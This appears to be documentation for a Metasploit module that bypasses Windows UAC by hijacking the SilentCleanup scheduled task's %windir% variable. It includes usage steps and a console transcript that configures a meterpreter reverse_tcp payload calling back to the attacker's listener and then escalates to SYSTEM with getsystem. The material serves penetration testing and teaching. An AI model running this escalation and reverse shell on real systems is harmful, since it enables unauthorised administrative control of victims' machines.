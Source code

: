## Intro

This module will bypass UAC on any Windows installation with Powershell installed. 

There's a task in Windows Task Scheduler called "SilentCleanup" which, while it's executed as Users, automatically runs with elevated privileges.
When it runs, it executes the file %windir%\system32\cleanmgr.exe. Since it runs as Users, and we can control user's environment variables,
%windir% (normally pointing to C:\Windows) can be changed to point to whatever we want, and it'll run as admin. In order to work, the code must 
be saved in a script file somewhere, it cannot be run directly from powershell or from the run dialog.

## Usage

1. Create a session on the target system under the context of a local administrative user.
1. Begin interacting with the module: `use exploit/windows/local/bypassuac_silentcleanup`.
1. Set the `PAYLOAD` and configure it correctly, making sure the architecture is correct.
1. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
1. Make sure that the `SESSION` value is set to the existing session identifier.
1. Invoke the module: `run`.

## Scenarios

```
msf5 > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  6         meterpreter x86/windows  DESKTOP-T2TGIHP\Carter @ DESKTOP-T2TGIHP  192.168.1.x:4444 -> 192.168.1.x:53685 (192.168.1.x)

msf5 > use exploit/windows/local/bypassuac_silentcleanup 
msf5 exploit(windows/local/bypassuac_silentcleanup) > set SESSION 6
SESSION => 6
msf5 exploit(windows/local/bypassuac_silentcleanup) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/bypassuac_silentcleanup) > set LHOST 192.168.1.xx
LHOST => 192.168.1.xx
msf5 exploit(windows/local/bypassuac_silentcleanup) > options

Module options (exploit/windows/local/bypassuac_silentcleanup):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   SESSION    6                yes       The session to run this module on.
   SLEEPTIME  0                no        The time (ms) to sleep before running SilentCleanup


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.55     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows


msf5 exploit(windows/local/bypassuac_silentcleanup) > run

[*] Started reverse TCP handler on 192.168.1.xx:4444 
[+] Part of Administrators group! Continuing...
[*] Sending stage (206403 bytes) to 192.168.1.x
[*] Meterpreter session 10 opened (192.168.1.xx:4444 -> 192.168.1.x:55538) at 2019-06-20 15:00:14 -0400

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > bg
[*] Backgrounding session 10...
msf5 exploit(windows/local/bypassuac_silentcleanup) > 
```
